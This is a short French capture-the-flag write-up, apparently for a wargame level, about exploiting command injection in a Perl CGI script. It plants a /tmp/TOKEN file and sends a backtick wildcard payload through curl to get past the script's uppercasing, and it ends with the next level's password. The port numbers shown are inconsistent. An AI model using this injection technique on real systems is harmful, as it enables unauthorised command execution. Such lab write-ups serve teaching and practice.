 ## 1. Analyser le fichier perl

    curl http://localhost:6464/level12.pl?x=test

Cela exécute le script Perl et affiche des informations dans la console. En examinant le fichier, on remarque qu'il existe une vulnérabilité permettant d'exécuter une commande dans egrep. Le premier argument est transformé en majuscule, ce qui ouvre ensuite le fichier correspondant.

## 2. Creer un fichier possible a ouvrir pour perl

On crée un fichier nommé TOKEN dans le répertoire /tmp et y insère la commande getflag, qui redirige ensuite le résultat vers un autre fichier.

    echo 'getflag > /tmp/token' > /tmp/TOKEN

## 2. Executer le script avec la commande cache

    curl http://localhost:4646?x='`/*/TOKEN`'

## 3. Connexion

su level13

    Mot de passe : g1qKMiRpXf53AWhDaU7FEkczr